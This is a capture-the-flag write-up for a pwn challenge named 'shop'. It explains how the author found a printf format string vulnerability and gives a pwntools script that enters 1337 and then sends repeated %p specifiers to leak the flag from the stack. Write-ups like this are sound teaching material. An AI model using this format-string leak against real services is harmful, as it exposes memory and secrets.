 # shop

**Category**: pwn

**Points**: 400

go on, maybe buy a playlist

`nc 195.154.231.70 4343`

## Files

- [shop](./shop)

## Solution

running the binary, you get the following output

![shop](https://i.imgur.com/5ux4MmC.png)

since your input is reflected back to you, you can assume that there is a printf format string vulnerability which can be confirmed easily by sending `%p` and getting hex values back.

this can also be confirmed by opening up the binary in ghidra and seeing that there is a `printf` call in the `main` function.

![printf](https://i.imgur.com/9ZJQ9Gl.png)

while you're in ghidra, you may notice that the flag is only loaded onto the stack when the input for the first prompt is `1337`.

![ghidra](https://i.imgur.com/FIyLB8u.png)

now, with all that information, you can simply write a python script to enter `1337` as the first input, and then use the format string vulnerability to leak the flag.

![solve](https://i.imgur.com/dC6uGCw.png)

```python
from pwn import *

if args.REMOTE:
    p = remote('195.154.231.70', 4343)
else:
    p = process("./chall")

flag = ""

p.sendlineafter(b"enter your choice:\n", b"1337")
p.sendlineafter(b"\nwhere do you want it to b sent?\n", b"%p " * 25)
p.recvuntil(b"you'll get it at:\n\n")

response = p.recv(1000)

for i, p in enumerate(response.split(b" ")):
    try:
        if not b"nil" in p:
            try:
                hex_string = p.strip().decode()[2:] # remove 0x and decode
                decoded = bytes.fromhex(hex_string) # decode hex
                reversed_hex = decoded[::-1] # reverse endianess
                print(f"{i}: {reversed_hex}")
                flag += reversed_hex.decode() # build up flag
            except BaseException as e:
                pass
    except EOFError:
        pass

log.info(flag)
```
